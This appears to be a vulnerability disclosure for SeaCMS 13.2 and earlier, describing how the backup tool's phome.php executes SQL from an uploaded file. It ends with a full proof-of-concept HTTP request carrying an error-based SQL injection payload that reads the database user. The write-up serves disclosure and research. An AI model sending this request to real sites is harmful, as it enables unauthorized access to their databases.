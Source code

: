 ## Seacms

Version<=13.2

Vulnerable Component:

filename: \admin\ebak\phome.php

![](./images/image7.png)

It is not difficult to guess from the remarks that the sql statement in the file is parsed and executed

Enter Ebak_DoTranExecSql()

![](./images/image8.png)

The above code checks whether the file was uploaded and the contents of the file are empty, as well as limiting the file suffix to sql.

Parses the file contents into sql statements

![image](./images/image9.png)

Moving on to the most critical Ebak_DoRunQuery () function

![](./images/image10.png)

![](./images/image5.png)

The general process is to filter the incoming parameters and truncate the statement according to the semicolon, and remove the redundant characters, leaving only the simple sql statement. Finally, the sql statement is executed using the query method.



### poc:

The post request passes a file with the mydbname parameter, set to the database name existing in the database, otherwise an error will be reported

```plain
POST /wy98j/ebak/phome.php?phome=DoTranExecSql HTTP/1.1
Host: 192.168.255.156:8888
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.255.156:8888/wy98j/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=dlof3c05sr2tiv8hoqi1qr2est
Connection: keep-alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryks747SRs3XDUOHB3
Content-Length: 343

mydbname=seacms
------WebKitFormBoundaryks747SRs3XDUOHB3
Content-Disposition: form-data; name="file"; filename="test.sql"
Content-Type: image/png

(SELECT 8056 FROM(SELECT COUNT(*),CONCAT(0x71706a6a71,(SELECT user()),0x71706a7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
------WebKitFormBoundaryks747SRs3XDUOHB3--
```

![image](./images/image11.png)

